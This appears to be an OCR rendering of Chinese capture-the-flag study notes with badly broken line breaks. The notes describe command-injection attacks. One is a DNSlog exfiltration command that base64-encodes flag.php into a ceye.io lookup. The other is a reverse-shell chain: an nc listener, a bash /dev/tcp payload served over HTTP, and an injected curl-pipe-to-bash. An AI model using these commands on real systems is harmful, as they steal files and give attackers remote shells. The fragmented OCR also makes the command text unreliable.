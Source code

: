  
3.DNSlog外带linux  
  
利用域名解析请求  
,dnslog  
.cn例如8qcijo  
.dnslog  
.cn那么因为dnslog使用了泛解析会将所有只要有8qcijo  
.dnslog  
.cn的xxx  
.8qcijo  
.dnslog  
.cncurl  
`cat<flag.php|base64`  
.awa4xw  
.ceye  
.io  
  
  
4  
.反弹shell  
  
1.首先在服务器用nc监听端口nc  
-lvp  
44442.  
如何在服务器上开启web访问  
(  
8000端口  
),  
写入一个文件  
(  
1  
.txt  
)内容如bash  
-i  
&/dev  
/tcp  
/x  
.x  
.x  
.x  
/  
44440  
>&  
13.执行payload  
?cmd  
=curl
x  
.x  
.x  
.x  
:  
8000  
/  
1  
.txt  
|bashpython一行代码实现简易http服务器python  
-m
SimpleHTTPServer  
  